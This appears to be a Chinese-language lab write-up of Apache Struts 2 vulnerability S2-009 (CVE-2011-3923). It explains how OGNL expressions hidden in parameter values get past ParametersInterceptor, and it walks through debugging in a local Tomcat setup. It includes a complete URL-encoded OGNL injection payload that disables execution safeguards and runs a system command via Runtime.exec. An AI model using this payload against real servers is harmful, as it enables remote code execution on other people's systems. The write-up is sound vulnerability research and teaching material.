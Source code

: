 # S2-009 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution                                     |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.3.1.2](http://struts.apache.org/download.cgi#struts2312) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.3.1.1                                |
| Reporter                | Meder Kydyraliev, Google Security Team                       |
| CVE Identifier          | [CVE-2011-3923](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3923) |
| Original Description    | Reported directly to security@struts.a.o                     |

## Problem

ParametersInterceptor拦截器只检查传入的参数名是否合法，不会检查参数值。例如传入参数`top['foo'](0)`会通过ParametersInterceptor的白名单检查，OGNL会将其解析为`(top['foo'])(0)`，并将foo的值也作为OGNL表达式计算。

也就是说，OGNL会自动在上下文中查找参数foo的值。

这样，如果将恶意的ognl表达式放在foo的值中，就可以绕过ParametersInterceptor的检查（因为它不检查参数的值），造成代码执行。

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 6.0.9           |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

<img src="20200713172021.jpg" alt="20200713172021" style="zoom:150%;" />

payload:

```java
test.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true
```

## Debug

我们先对payload进行一个语法分析，将其分解为：

1. `foo=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('calc'))(meh)`
2. `z[(foo)('meh')]=true`

对应语法树形式为：

1. `value1=(expression1)(constant)`

2. `z[(expression2)(constant)]=value2`

执行流程为：

1. `value1 = expression1` （expression1作为参数值不会被检测是否合法，只会检查value1也就是foo）
2. `expression2 = value2` （这里的expression2调用的是value1，也就是foo，foo和expression1已经通过第一步进入了ognl上下文，所以expression2里的foo会被替换为恶意的ognl表达式）

再看看调试过程。在ParametersInterceptor拦截器doIntercept()下断点，跟入setParameters():

![image-20200824151024087](image-20200824151024087.png)

遍历参数对，检查参数名是否符合白名单。

将检查通过的参数名连同对应的value放入acceptableParameters 这个map中。接着遍历acceptableParameters，执行setValue()操作：

![image-20200824152026612](image-20200824152026612.png)

在setValue()的过程中，OGNL解析器会将payload按照上面的过程进行解析。由于涉及的过程比较繁琐，我没有深入跟。

Payload的分析参考自[Struts2漏洞分析与研究之S2-005漏洞分析](https://blog.csdn.net/u011721501/article/details/41626959)，加了个人的理解，如有错误可指出交流。

## Reference

- [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)

- [Struts2漏洞分析与研究之S2-005漏洞分析](https://blog.csdn.net/u011721501/article/details/41626959)

- [S2-009 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-009/README.zh-cn.md)